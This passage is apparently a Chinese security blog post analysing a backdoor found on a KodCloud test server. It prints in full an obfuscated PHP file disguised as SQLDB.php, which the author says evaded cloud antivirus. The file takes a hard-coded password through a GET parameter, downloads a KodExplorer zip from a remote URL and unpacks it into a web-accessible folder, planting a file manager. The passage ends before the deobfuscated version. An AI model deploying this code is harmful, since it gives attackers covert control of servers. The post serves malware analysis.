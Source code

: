 0x00 前言
=======

之前在挖掘可到云文件管理系统漏洞的时候，在一个没有装防火墙的轻量级服务器上搭建了一个环境。在漏洞挖掘结束以后，服务器就没有再使用过。但是因为服务器之前搭建过靶场，留下了一些后门文件。  
这两天准备给团队开发一个资源共享系统，就想把可道云改一下UI。在熟悉底层文件的时候，突然看见一个不太和谐的文件。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-33eb990a177d3c44c6ccadb8e705d7649cc87b8a.png)

这个文件名是SQLDB.php，像是一个系统文件。但是文件格式却是被压缩过的，与其他文件风格不一样，于是就引起了我的注意力。  
因为我使用的是腾讯云服务器，如果有病毒的话会检测并通知我，但是这个文件没有被检测到。所以一开始我以为这只是一个普通的文件，在研究以后，发现这是一个利用敏感信息的病毒文件，并且要过了腾讯云的杀毒（企业版的是否绕过不知道），今天写在这里分享一下。  
因为在做分析的时候对文件进行过操作，所以文件时间是比较近的。但其实是之前不知道什么时候有的。

0x01 文件内容
=========

原来的文件内容：

```php
&lt;?php if (!defined("SQLDB")) define("SQLDB", "MCDB");$SQLKWD[SQLDB] = explode("|^|K|3", "H*|^|K|341414741474747");if (!defined(pack($SQLKWD[SQLDB][00], $SQLKWD[SQLDB][0x1]))) define(pack($SQLKWD[SQLDB][00], $SQLKWD[SQLDB][0x1]) , ord(1));if (!defined("SSHDB")) define("SSHDB", "SSHKEY");$SQLKWD[SSHDB] = explode("|v|t|Z", "H*|v|t|Z41414741474741|v|t|Z41414741474147|v|t|Z7C3A7C2D7C35|v|t|Z7C3A7C2D7C35646566696E65647C3A7C2D7C35666F70656E7C3A7C2D7C3566707574737C3A7C2D7C3566636C6F73657C3A7C2D7C3569735F66696C657C3A7C2D7C35756E6C696E6B");if (!defined(pack($SQLKWD[SSHDB] {0 }, $SQLKWD[SSHDB] {01 }))) define(pack($SQLKWD[SSHDB] {0 }, $SQLKWD[SSHDB] {01 }) , pack($SQLKWD[SSHDB] {0 }, $SQLKWD[SSHDB][02]));$SQLKWD[JARMD] = explode(pack($SQLKWD[SSHDB] {0 }, $SQLKWD[SSHDB] {3 }) , pack($SQLKWD[SSHDB] {0 }, $SQLKWD[SSHDB][0x4]));if (!defined("SQLDBWD")) define("SQLDBWD", "SQLWDG");$SQLKWD[SQLDBWD] = explode("|K|H|a", "H*|K|H|a41414747414147|K|H|a646566696E65|K|H|a41414747414141|K|H|a70|K|H|a|K|H|a3070656e2e736573616d65|K|H|a687474703A2F2F7374617469632E6B6F64636C6F75642E636F6D2F7570646174652F646F776E6C6F61642F6B6F646578706C6F726572342E34302E7A6970|K|H|a2E2F6B6F642E7A6970|K|H|a772B|K|H|a6B6F642E7A6970|K|H|a6B6F642F|K|H|a3C6120687265663D222E2F6B6F6422207461726765743D225F626C616E6B223EE689A7E8A18CE68890E58A9FE782B9E587BBE8BF9BE585A53C2F613E0A");if (!$SQLKWD[JARMD] {0x1 }(pack($SQLKWD[SQLDBWD] {0x0 }, $SQLKWD[SQLDBWD] {1 }))) \call_user_func(pack($SQLKWD[SQLDBWD] {0x0 }, $SQLKWD[SQLDBWD][02]) , pack($SQLKWD[SQLDBWD] {0x0 }, $SQLKWD[SQLDBWD] {1 }) , pack($SQLKWD[SQLDBWD] {0x0 }, $SQLKWD[SQLDBWD] {03 }));$SQLKWD[SQLPWD] = array( $_GET );$AGAAAAG = &amp; $passwd;$AGAAAAA = &amp; $ch;$AAGGGGG = &amp; $source;$AAGGGGA = &amp; $data;$AAGGGAG = &amp; $destination;$file = &amp; $AAGGGAA;$AAGGAGG = &amp; $zip;$file_path = &amp; $AAGGAGA;$AGAAAAG = isset($SQLKWD[SQLPWD][(0 - 1225 + 25 * AAGAGGG) ][pack($SQLKWD[SQLDBWD] {0x0 }, $SQLKWD[SQLDBWD] {4 }) ]) ? $SQLKWD[SQLPWD][(0 - 1225 + 25 * AAGAGGG) ][pack($SQLKWD[SQLDBWD] {0x0 }, $SQLKWD[SQLDBWD] {4 }) ] : pack($SQLKWD[SQLDBWD] {0x0 }, $SQLKWD[SQLDBWD][05]);if ($AGAAAAG != pack($SQLKWD[SQLDBWD] {0x0 }, $SQLKWD[SQLDBWD][06])) {exit;}$AGAAAAA = curl_init();$AAGGGGG = pack($SQLKWD[SQLDBWD] {0x0 }, $SQLKWD[SQLDBWD] {07 });curl_setopt($AGAAAAA, CURLOPT_URL, $AAGGGGG);curl_setopt($AGAAAAA, CURLOPT_RETURNTRANSFER, (AAGAGGG * 41 - 2008));$AAGGGGA = curl_exec($AGAAAAA);curl_close($AGAAAAA);$AAGGGAG = pack($SQLKWD[SQLDBWD] {0x0 }, $SQLKWD[SQLDBWD] {0x8 });$AAGGGAA = $SQLKWD[JARMD] {02 }($AAGGGAG, pack($SQLKWD[SQLDBWD] {0x0 }, $SQLKWD[SQLDBWD][011]));$SQLKWD[JARMD] {03 }($AAGGGAA, $AAGGGGA);$SQLKWD[JARMD] {0x4 }($AAGGGAA);$AAGGAGG = new ZipArchive();if ($AAGGAGG-&gt;open(pack($SQLKWD[SQLDBWD] {0x0 }, $SQLKWD[SQLDBWD][012])) === true) {$AAGGAGG-&gt;extractTo(pack($SQLKWD[SQLDBWD] {0x0 }, $SQLKWD[SQLDBWD] {11 }));$AAGGAGG-&gt;close();}$AAGGAGA = pack($SQLKWD[SQLDBWD] {0x0 }, $SQLKWD[SQLDBWD] {0x8 });if ($SQLKWD[JARMD] {05 }($AAGGAGA)) {if ($SQLKWD[JARMD][6]($AAGGAGA)) {}}echo pack($SQLKWD[SQLDBWD] {0x0 }, $SQLKWD[SQLDBWD] {0xC });?&gt;
```

展开后的：
